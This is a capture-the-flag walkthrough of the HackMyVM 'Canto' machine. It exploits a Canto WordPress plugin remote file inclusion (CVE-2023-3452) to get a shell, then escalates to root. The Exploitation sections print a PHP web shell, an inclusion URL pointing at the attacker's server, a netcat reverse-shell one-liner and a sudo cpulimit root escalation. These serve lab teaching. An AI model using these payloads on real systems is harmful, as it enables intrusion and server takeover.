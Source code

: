 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-my-vm/canto/","tags":["CTF","write-up"]}
---
```



![Pasted image 20241202214247.png|300](/img/user/attachments/Pasted%20image%2020241202214247.png)

---

> [!INFO] Info about Canto
> Linux machine.

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Executing a fast general scan to all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

---
# Enumeration
Executing a deep scan with common scripts only to ports that we are interested.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Ubuntu, linux
## Port 22 - SSH
22/tcp open  ssh     OpenSSH **9.3p1** Ubuntu 1ubuntu3.3 (Ubuntu Linux; protocol 2.0)
## Port 80 - Apache
80/tcp open  http    **Apache** httpd **2.4.57** ((Ubuntu))
Using **PHP**
http-title: Canto
http-generator: **WordPress 6.5.3**
http-server-header: Apache/2.4.57 (Ubuntu)

Add IP to `/etc/hosts`
```shell
sudo echo "192.168.122.80 canto.hmv" | sudo tee -a /etc/hosts
```

![Pasted image 20241204111339.png|700](/img/user/attachments/Pasted%20image%2020241204111339.png)
### Fuzzing
```shell
ffuf -c -t 100 -u http://canto.hmvm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc all -fc 404
```
I found the WordPress 1typical subdirectories
![Pasted image 20241204122039.png](/img/user/attachments/Pasted%20image%2020241204122039.png)

---
# Vulnerability analysis
## Port 80
### Wordpress
Run wpscan
```shell
wpscan --url http://canto.hmvm/ -e vp --api-token="55hrhgd.....9ohtf" --plugins-detection aggressive
```
![Pasted image 20241204132557.png](/img/user/attachments/Pasted%20image%2020241204132557.png)
`searchsploit` provided an exploit related with this vulnerability
![Pasted image 20241204170426.png](/img/user/attachments/Pasted%20image%2020241204170426.png)

---
# Exploitation
I test the CVE-2024-25096 provided from *wpscan*, but I had problems.
## CVE-2023-3452

> [!cite] NIST CVE-2023-3452
> The Canto plugin for WordPress is vulnerable to **Remote File Inclusion** in versions up to, and including, **3.0.4** via the 'wp_abspath' parameter. This allows unauthenticated attackers to include and **execute** arbitrary **remote code** on the server, provided that allow_url_include is enabled. **Local File Inclusion** is also possible, albeit less useful because it requires that the attacker be able to upload a malicious php file via FTP or some other means into a directory readable by the web server.

The exploit of *exploitdb* fails, so I decide to exploit it manually.

1. On the attacker machine, create a folder named `wp-admin` and PHP file into it
   ![Pasted image 20241204173950.png](/img/user/attachments/Pasted%20image%2020241204173950.png)
   Content of `admin.php`
   ```php
   <?php
	   echo shell_exec($_GET['cmd']);
   ?>
   ```
1. On the attacker, run a python HTTP server
   ```shell
   python -m http.server 4748
   ```
3. On the browser or Burpsuite
   ```php
http://canto.hmvm/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://192.168.122.192:4748&cmd=whoami
   ```
   ![Pasted image 20241204174806.png](/img/user/attachments/Pasted%20image%2020241204174806.png)
## Get a shell
If it works, we have some says to get a reverse shell.

I'll set a listener
```shell
rlwrap nc -lnvp 4747
```
In this case, I'll enter the browser and copy this (change the IPs and ports):
```php
http://canto.hmvm/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://192.168.122.192:4748&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.122.192%204747%20%3E%2Ftmp%2Ff
```
And we have a shell like `www-data`
![Pasted image 20241204180653.png](/img/user/attachments/Pasted%20image%2020241204180653.png)
I found a flag on the home, but a higher privilege is required to read it.

---
# Privilege escalation
On the home folder of `www-data` I check the `.bash_history`
![Pasted image 20241204181337.png|300](/img/user/attachments/Pasted%20image%2020241204181337.png)
Check the `txt` file and I found the credentials.
![Pasted image 20241204181609.png|400](/img/user/attachments/Pasted%20image%2020241204181609.png)
Login as *erik*
```shell
su erik
```
And enter the password
![Pasted image 20241204181802.png](/img/user/attachments/Pasted%20image%2020241204181802.png)
> [!check] User flag
> ![Pasted image 20241204182023.png](/img/user/attachments/Pasted%20image%2020241204182023.png)
## Get root
Check sudo permissions.
```shell
sudo -l
```
![Pasted image 20241204205037.png|700](/img/user/attachments/Pasted%20image%2020241204205037.png)
This can be exploited using *gtfobins*
![Pasted image 20241204205303.png|700](/img/user/attachments/Pasted%20image%2020241204205303.png)
```shell
sudo cpulimit -l 100 -f /bin/sh
```
![Pasted image 20241204205530.png](/img/user/attachments/Pasted%20image%2020241204205530.png)

> [!check] Root flag
> ![Pasted image 20241204205643.png](/img/user/attachments/Pasted%20image%2020241204205643.png)

---